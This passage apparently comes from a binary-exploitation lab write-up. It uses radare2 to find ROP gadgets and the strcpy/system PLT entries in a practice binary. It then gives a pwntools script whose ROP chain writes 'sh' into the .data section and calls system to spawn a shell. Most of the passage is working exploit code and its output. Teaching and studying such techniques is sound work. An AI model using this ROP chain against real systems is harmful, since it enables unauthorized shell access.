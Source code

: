 ```
[0x004004e0]> /R pop rsi
  0x004006e1                 5e  pop rsi
  0x004006e2               415f  pop r15
  0x004006e4                 c3  ret
```
And detect the PLT of strcpy/system:
```
[0x004004e0]> afl
0x00400000    3 72   -> 73   sym.imp.__libc_start_main
0x00400470    3 23           sym._init
0x004004a0    1 6            sym.imp.strcpy
0x004004b0    1 6            sym.imp.system
0x004004c0    1 6            sym.imp.printf
0x004004d0    1 6            sym.imp.gets
```
We will also need the address of some memory region we can write in. We can go to the .data section of the executable as it will have RW permissions, that is important, if we try to write to an address that looks "empty" but its located inside a non-writeable regetion, strcpy will fail.

And again, after that, the exploit comes easy, we write "s", we write "h\x00", we pass the parameters via the registers and call system:
```Py
from pwn import *

h_address = 0x4004a6
s_address = 0x40036e

write_to = 0x6010f0
system = 0x4004b0
strcpy = 0x4004a0

ret = 0x40028d
pop_rdi_ret = 0x4006e3
pop_rsi_pop_r15_ret=0x4006e1
dummy = b'C' * 8

buf= b'A' * 208
buf += b'\x42' * 8

#-------------------------copy 's' to .data
buf += p64(ret)
buf += p64(pop_rdi_ret)
buf += p64(write_to)
buf += p64(pop_rsi_pop_r15_ret)
buf += p64(s_address)
buf += dummy
buf += p64(strcpy)

#-------------------------copy 'h' to .data
buf += p64(pop_rdi_ret)
buf += p64(write_to+0x1)
buf += p64(pop_rsi_pop_r15_ret)
buf += p64(h_address)
buf += dummy
buf += p64(strcpy)

#-------------------------call system with 'sh' as parameter
buf += p64(pop_rdi_ret)
buf += p64(write_to)
buf += p64(system)
```
And, another shell:
```
lab@lab-VirtualBox:~/asl$ (python3 exploit3.py; cat;) | ./example_3 
```